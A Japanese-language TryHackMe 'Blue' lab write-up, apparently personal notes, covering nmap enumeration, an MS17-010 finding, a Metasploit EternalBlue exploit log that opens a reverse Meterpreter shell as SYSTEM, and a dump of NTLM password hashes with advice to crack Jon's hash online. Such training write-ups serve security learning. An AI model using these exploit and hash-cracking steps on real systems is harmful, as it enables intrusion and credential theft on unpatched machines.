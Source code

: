 ![](https://raw.githubusercontent.com/crum7/Obsidian/main/TryHackMe_Memo/Machine/images/Generic-Banner.svg)

- URL : https://tryhackme.com/r/room/blue
- #easy 
- OS :  #Windows
- Machine Author(s): 
- Hack Date: 2025-01-02,20:15

---

# Enumeration
どのポートが空いている?
```bash
PORT      STATE SERVICE            REASON          VERSION
135/tcp   open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 128 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 128
|_ssl-date: 2025-01-02T11:03:22+00:00; -1s from scanner time.
49152/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49158/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
49159/tcp open  msrpc              syn-ack ttl 128 Microsoft Windows RPC
MAC Address: 02:83:7C:C9:21:C9 (Unknown)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h29m59s, deviation: 3h00m00s, median: -1s
| nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:83:7c:c9:21:c9 (unknown)
| Names:
|   JON-PC<00>           Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   JON-PC<20>           Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02 83 7c c9 21 c9 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 53248/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 58458/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 11980/udp): CLEAN (Timeout)
|   Check 4 (port 57286/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-01-02T05:03:17-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-02T11:03:17
|_  start_date: 2025-01-02T10:58:51
```


nmapで脆弱性スキャン
ms17-010が見つかった。

ms17-010
- MSから始まる番号（例: MS17-010）は、**Microsoft Security Bulletinのセキュリティパッチの識別番号
- MS17-010
	- 意味
		- **MS**: Microsoft Security Bulletinの略
		- **17**: 公開年（2017年）
		- 10番目のセキュリティパッチ
	- 内容
		- 2017年に発生した**WannaCry**ランサムウェア攻撃で利用された「EternalBlue」エクスプロイトの脆弱性
		- 攻撃者が特別に細工されたメッセージをSMBv1サーバーに送信することで、リモートでコードを実行できる可能性があります。
		- MS17-010で修正された主な脆弱性には、以下が含まれます：
			- **CVE-2017-0143**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0144**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0145**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0146**: Windows SMBのリモートコード実行の脆弱性
			- **CVE-2017-0147**: Windows SMBの情報漏洩の脆弱性
			- **CVE-2017-0148**: Windows SMBのリモートコード実行の脆弱性



```bash
oot@ip-10-10-195-190:~/HTBScript# nmap --script=*vuln* 10.10.154.44
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-02 11:12 GMT
Nmap scan report for 10.10.154.44.htb (10.10.154.44)
Host is up (0.032s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
MAC Address: 02:83:7C:C9:21:C9 (Unknown)

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 91.73 seconds
```



---

# Foothold

meterplaterでEternalBlueの脆弱性を使ってexploitした。
EternalBlueは、「Groom Allocations」とは、メモリヒープ（heap）の管理を操作して、ターゲットシステムの脆弱性を悪用している。
具体的には、脆弱性を引き起こす条件を満たすように、ヒープメモリを意図的に配置・解放する。そのため、たまに上手くいかなくなることがある。
自分は、`set GroomAllocations 20`にしたら、上手く行った。
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
[*] Started reverse TCP handler on 10.10.195.190:4444 
[*] 10.10.154.44:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.154.44:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.154.44:445      - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.154.44:445 - The target is vulnerable.
[*] 10.10.154.44:445 - Connecting to target for exploitation.
[+] 10.10.154.44:445 - Connection established for exploitation.
[+] 10.10.154.44:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.154.44:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.154.44:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.154.44:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.154.44:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.154.44:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.154.44:445 - Trying exploit with 20 Groom Allocations.
[*] 10.10.154.44:445 - Sending all but last fragment of exploit packet
[*] 10.10.154.44:445 - Starting non-paged pool grooming
[+] 10.10.154.44:445 - Sending SMBv2 buffers
[+] 10.10.154.44:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.154.44:445 - Sending final SMBv2 buffers.
[*] 10.10.154.44:445 - Sending last fragment of exploit packet!
[*] 10.10.154.44:445 - Receiving response from exploit packet
[+] 10.10.154.44:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.154.44:445 - Sending egg to corrupted connection.
[*] 10.10.154.44:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 10.10.154.44
[*] Meterpreter session 1 opened (10.10.195.190:4444 -> 10.10.154.44:49219) at 2025-01-02 11:40:53 +0000
[+] 10.10.154.44:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.154.44:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.154.44:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > bash
[-] Unknown command: bash. Run the help command for more details.
meterpreter > shell
Process 1112 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

---
## Notes
なんか、他のアカウントのパスワードも知りたいらしい。
Windowsのパスワードのハッシュの構成

`<ユーザー名>:<RID>:<LMハッシュ>:<NTLMハッシュ>:::`

- **ユーザー名**: Windowsアカウント名
- **RID**: 相対識別子（ユーザー固有ID）
- **LMハッシュ**: 古いLAN Managerハッシュ（未使用の場合は`aad3b435b51404eeaad3b435b51404ee`）
- **NTLMハッシュ**: NTLMv1またはv2ハッシュ（クラック対象）

jonのパスワードを知るためには、一番最後のffb43f0de35be4d9917ac0cc8ad57f8dの部分を
https://crackstation.net/
でクラックすればいい。
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

```

![](https://raw.githubusercontent.com/crum7/Obsidian/main/TryHackMe_Memo/Machine/images/Pasted%20image%2020250102210525.png)


---
## Flags

- **User**: `<md5>`
- **Root**: `<md5>`
---
